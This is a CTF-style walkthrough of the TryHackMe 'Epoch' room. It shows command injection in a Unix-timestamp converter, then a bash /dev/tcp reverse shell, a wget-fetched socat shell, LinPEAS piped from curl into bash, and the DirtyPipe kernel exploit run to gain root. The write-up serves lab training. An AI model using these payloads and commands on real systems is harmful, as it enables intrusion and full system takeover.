 # Epoch

## Introduction

Welcome to my another writeup! In this TryHackMe [Epoch](https://tryhackme.com/room/epoch) room, you'll learn: Inspecting malicious traffics in Brim and more! Without further ado, let's dive in.

- Overall difficulty for me: Very easy

## Background

> Be honest, you have always wanted an online tool that could help you convert UNIX dates and timestamps!

> Difficulty: Easy

Be honest, you have _always_ wanted an online tool that could help you convert UNIX dates and timestamps! Wait... it doesn't need to be online, you say? Are you telling me there is a command-line Linux program that can already do the same thing? Well, of course, we already knew that! Our website actually just passes your input right along to that command-line program!

**Access this challenge** by deploying both the vulnerable machine by pressing the green "Start Machine" button located within this task, and the TryHackMe AttackBox by pressing the "Start AttackBox" button located at the top-right of the page.

Navigate to the following URL using the AttackBox: [http://MACHINE_IP](http://MACHINE_IP)

## Service Enumeration

### HTTP on Port 80

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Epoch/images/Pasted%20image%2020221101234154.png)

**Looks like what this page does is converting Unix epoch time to UTC time!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Epoch/images/Pasted%20image%2020221101234252.png)

**What if I type an invalid epoch time??**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Epoch/images/Pasted%20image%2020221101234405.png)

Hmm... `exit status 1`.

**This looks like it's vulnerable to command injection!** (`exit status 1` is the exit status in Unix system.)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Epoch/images/Pasted%20image%2020221101234752.png)

It's indeed vulnerable!

**Also, look at the error of the `date` command:**
`date: invalid date '@'`

**This looks like our input is being parse to a bash command, like: `bash -c "date <user_input>"`.**

## Initial Foothold

**In here, you can type `env` to get the flag. Or get a reverse shell!**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Epoch/images/Pasted%20image%2020221101235049.png)

- Reverse shell:

**Payload:** (Generated from [revshells.com](https://www.revshells.com/))
```bash
/bin/bash -i >& /dev/tcp/10.9.0.253/443 0>&1
```

**Setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Epoch]
└─# nc -lnvp 443 
listening on [any] 443 ...
```

**Send the payload:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/Epoch/images/Pasted%20image%2020221101235255.png)

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Epoch]
└─# nc -lnvp 443 
listening on [any] 443 ...
connect to [10.9.0.253] from (UNKNOWN) [10.10.16.249] 55158
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
challenge@e7c1352e71ec:~$ whoami;hostname;id
whoami;hostname;id;ip a
challenge
e7c1352e71ec
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
```

**Flag:**
```
challenge@e7c1352e71ec:~$ env
HOSTNAME=e7c1352e71ec
PWD=/home/challenge
HOME=/home/challenge
LS_COLORS=
GOLANG_VERSION=1.15.7
FLAG=flag{Redacted}
SHLVL=2
PATH=/usr/local/go/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/env
```

## Privilege Escalation (Optional)

**Stable shell via `socat`:**
```
┌──(root🌸siunam)-[/opt/static-binaries/binaries/linux/x86_64]
└─# python3 -m http.server 80           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

challenge@e7c1352e71ec:~$ wget http://10.9.0.253/socat -O /tmp/socat;chmod +x /tmp/socat;/tmp/socat TCP:10.9.0.253:4444 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane

┌──(root🌸siunam)-[~/ctf/thm/ctf/Epoch]
└─# socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:4444
2022/11/01 23:57:17 socat[14829] N opening character device "/dev/pts/2" for reading and writing
2022/11/01 23:57:17 socat[14829] N listening on AF=2 0.0.0.0:4444
                                                                 2022/11/01 23:57:19 socat[14829] N accepting connection from AF=2 10.10.16.249:54494 on AF=2 10.9.0.253:4444
                                                                  2022/11/01 23:57:19 socat[14829] N starting data transfer loop with FDs [5,5] and [7,7]
                                              challenge@e7c1352e71ec:~$ 
challenge@e7c1352e71ec:~$ stty rows 23 columns 107
challenge@e7c1352e71ec:~$ export TERM=xterm-256color
challenge@e7c1352e71ec:~$ ^C
challenge@e7c1352e71ec:~$ 
```

**LinPEAS:**
```
┌──(root🌸siunam)-[/opt/PEAS]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

challenge@e7c1352e71ec:~$ curl -s http://10.9.0.253/linpeas.sh | bash
[...]
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-3560

Vulnerable to CVE-2022-0847
[...]
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: probable
   Tags: [ ubuntu=(20.04|21.04) ],debian=11
   Download URL: https://haxx.in/files/dirtypipez.c

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: probable
   Tags: [ ubuntu=20.04 ]{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded
[...]
```

**Hmm... Let's try the DirtyPipe kernel exploit:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Epoch]
└─# wget https://haxx.in/files/dirtypipez.c

challenge@e7c1352e71ec:~$ wget http://10.9.0.253/dirtypipez.c -O /tmp/dirtypipez.c;cd /tmp
```

**Confirm the target machine has `gcc` installed:**
```
challenge@e7c1352e71ec:/tmp$ which gcc
/usr/bin/gcc
```

**It's has `gcc`, so we can compile the C exploit in there.**

**Compile the C exploit:**
```
challenge@e7c1352e71ec:/tmp$ gcc dirtypipez.c -o dirtypipez

challenge@e7c1352e71ec:/tmp$ ./dirtypipez 
Usage: ./dirtypipez SUID
```

**In this kernel exploit, it needs a SUID sticky bit binary!**
```
challenge@e7c1352e71ec:/tmp$ find / -perm -4000 2>/dev/null
/usr/bin/chfn
/usr/bin/umount
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/su
/usr/bin/mount
```

**Let's use the `/usr/bin/chfn` as the binary that we want to hijack:**
```
challenge@e7c1352e71ec:/tmp$ ./dirtypipez /usr/bin/chfn
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami;hostname;id
root
e7c1352e71ec
uid=0(root) gid=0(root) groups=0(root)
```

I'm root! :D

# Conclusion

What we've learned:

1. Command Injection
2. Privilege Escalation via DirtyPipe (CVE-2022-0847) Kernel Exploit